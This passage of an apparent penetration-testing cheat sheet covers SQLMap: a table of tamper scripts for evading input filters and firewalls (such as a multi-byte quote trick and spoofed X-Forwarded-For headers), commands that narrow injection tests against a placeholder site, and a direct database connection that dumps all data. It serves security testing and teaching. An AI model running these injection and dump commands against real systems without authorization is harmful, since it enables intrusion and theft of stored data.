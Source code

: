 |space2randomblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|symboliclogical.py | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||) |
|unionalltounion.py | Replaces UNION ALL SELECT with UNION SELECT |
|unmagicquotes.py | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work) |
|uppercase.py | Replaces each keyword character with upper case value 'INSERT'|
|varnish.py | Append a HTTP header 'X-originating-IP' |
|versionedkeywords.py | Encloses each non-function keyword with versioned MySQL comment |
|versionedmorekeywords.py | Encloses each keyword with versioned MySQL comment |
|xforwardedfor.py | Append a fake HTTP header 'X-Forwarded-For' |


## Reduce Requests Number

The parameter `--test-filter` is helpful when you want to focus on specific types of SQL injection techniques or payloads. Instead of testing the full range of payloads that SQLMap has, you can limit it to those that match a certain pattern, making the process more efficient, especially on large or slow web applications.

```ps1
sqlmap -u "https://www.target.com/page.php?category=demo" -p category --test-filter="Generic UNION query (NULL)"
sqlmap -u "https://www.target.com/page.php?category=demo" --test-filter="boolean"
```

By default, SQLmap runs with level 1 and risk 1, which generates fewer requests. Increasing these values without a purpose may lead to a larger number of tests that are time-consuming and unnecessary. 

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --level=1 --risk=1
```

Use the `--technique` option to specify the types of SQL injection techniques to test for, rather than testing all possible ones.

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --technique=B
```


## SQLmap Without SQL Injection

Using SQLmap without exploiting SQL injection vulnerabilities can still be useful for various legitimate purposes, particularly in security assessments, database management, and application testing. 

You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all
```
